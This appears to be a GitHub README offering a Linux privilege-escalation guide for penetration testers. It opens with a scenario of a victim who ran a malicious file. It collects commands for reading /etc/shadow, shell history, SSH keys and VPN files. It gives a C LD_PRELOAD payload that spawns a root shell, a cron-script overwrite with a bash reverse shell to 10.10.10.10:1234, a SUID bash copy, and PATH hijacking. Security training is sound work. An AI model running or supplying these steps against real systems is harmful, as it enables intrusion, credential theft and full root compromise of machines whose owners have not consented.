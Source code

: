 # Linux-PrivEsc-full-guide

Hi Folks! I made this repo that share the privilege escalation techniques I tend to use on Linux systems. At the moment, you will see basic stuff which works the best IRL but later I am going to add CTF specific techniques. Let's get into it!

# Enumeration

So, one of the your target company's users downloaded and executed a malicious file you happened to send them. You found credentials in clear text and connected back to the machine using SSH. What's the first thing you do? Identify where the hell are you and what you can do at this point of the engagement. For that I use the following commands:

## Some basic enumeration and easy wins
```sh
cat ~/.*history | less             # identify previously executed commands in the shell
whoami                             # enumerate the user
id                                 # enumerate the user
cat /etc/{passwd,shadow,group}     # check if we can see the stored passwords, users, groups
ls -l /etc/{shadow,passwd}         # check if we can write into the previously mentioned files
cat /etc/{passwd,group}            # same but without shadow (usually 'Permission denied')
ps aux | grep --ignore-case root   # see unusual processes and processes run by the root user
ls -l /.ssh                        # look for SSH keys, that you can download and connect back
locate "/*.ovpn"                   # identify vpn files that could help you pivot
find . -type f -iname "*vpn*"      # same just with the find command
```

## Further enumeration of the system, kernel version, errors..etc
```sh
hostname
hostname --all-{fqdns,ip-addresses}
uname --kernel-{name,release,version}
uname --all
lscpu

cat /proc/{version,issue}
cat /etc/os-release

# for modules
lsmod
lsmod | cut -d ' ' -f 1 | sort --unique

# oneliner: outputs errors(e.g the usual shadow permission denied) to file `err`
cat {/proc/{version,issue},/etc/{passwd,shadow,group,os-release}} 2>err

sudo -l                            # to check which commands I can run as a super user without the password
```

Sudo -l is the first thing you execute after gaining a foothold, you can have some easy wins with that. After checking the output go to https://gtfobins.github.io/ and note down, the binaries which are present on the system and can be executed with the sudo command without knowing the pass.

After executing `sudo -l` check the value of LD_PRELOAD, \
if you see something like this: `env_keep += LD_PRELOAD` - Than you can use the following little `C src` to gain root access:

### C Source code

in.c

```c
/*
 * author: An00bis
 * file: in.c
 */

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init(){
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

### Compilation
Usually, gcc is by default installed on most* systems.
We can compile it with `gcc -o out.elf in.c`
which takes `in.c` (our c source) 
and outputs `out.elf` (a executable) \
to run it: `./out.elf`


# Cron Jobs

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals.
```
cat /etc/crontab                      # check for cron jobs
locate example.sh                     # Find from where the file executes
ls -l /usr/local/bin/example.sh       # check if the file is world-writable

#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/1234 0>&1  # Overwrite the file with this simple one-liner, open up a listening port on 1234 and wait for the call-back
```
cat /etc/crontab                      # check for cron jobs, look for the PATH variable

Here I will leave an example: /home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin. In this case the PATH variable is /home/user, we are going to invoke a shell here with root priviliges.

Create a file with the following content:

```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

chmod +x /home/user/example.sh        # make the file executable and wait a minute or two
/tmp/rootbash -p                      # invoke the shell with the following command


cat /usr/local/bin/example.sh         # check the content of a cronjob and look for wildcards (*)

Check gtfobins for exploitation methods and use them. You can find a lot of things, but the basic idea is that you trick the program to think that the commands thar are going to be executed are part of it's features. This way you can gain trick the binary to rain a metasploit reverse-shell, execute additional commands or to simply elevate you to root.


# Network enumeration

```sh
ifconfig   # to see network interfaces, ip addresses..etc
ip a       # alternative for ifconfig
ip -c a    # output in color
arp -a     # check to ARP table and discover additional assets on the subnet
ip neigh   # alternative for the arp command
ip route   # check the route table and discover gateways, additional IPs
netstat    # to see active connections

wireshark                                 # The network traffic analyzer - Wireshark
tcpdump -i <interface> -s 65535 -w <file> # The command-line network traffic analyzer - TCPDump
```

## Try to sniff traffic, it's less noisy and you have more data to work with during the engagement

# SUID / GUID binaries

The flags setuid and setgid are needed for tasks that require different privileges than what the user is normally granted, such as the ability to alter system files or databases to change their login password. When the setuid or setgid attributes are set on an executable file, then any users able to execute the file will automatically execute the file with the privileges of the file's owner (commonly root) and/or the file's group, depending upon the flags set. I highly suggest to you to do your research on this topic because I can't cover everything in a single gitHub post.


```
find . -perm /6000                                                                  # Identify files where both the setuid and setgid flags are set
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null     # same just with a different command

Look for public exploits using Google, Exploit-db, Yandex...etc

strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"          

Use this commands on the binary to see the objects it's trying to load, try to overwrite objects with a reverse-shell to gain root access.

strings /usr/local/bin/example

From the strings output check the paths, from where the other executables are called. Try to overwrite them with a simple bash shell, add the route to the PATH variable and execute the file.

PATH=.:$PATH /usr/local/bin/example
./example
```

# Before finishing

This is just quick overview of this topic, as you can see, most of the time we overwrite files, abuse call functions and use public exploits to elevate our priviliges but with a little creativity you can do so much more. :)

If permitted use automatization tools to not lose too much time on this part of the penetration testing process:

* https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
* https://github.com/The-Z-Labs/linux-exploit-suggester

Resources to help you understand better the privilige escalation process:

* https://www.udemy.com/course/linux-privilege-escalation/?referralCode=0B0B7AA1E52B4B7F4C06
* https://tryhackme.com/room/linuxprivescarena
* https://tryhackme.com/room/linuxprivesc
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md




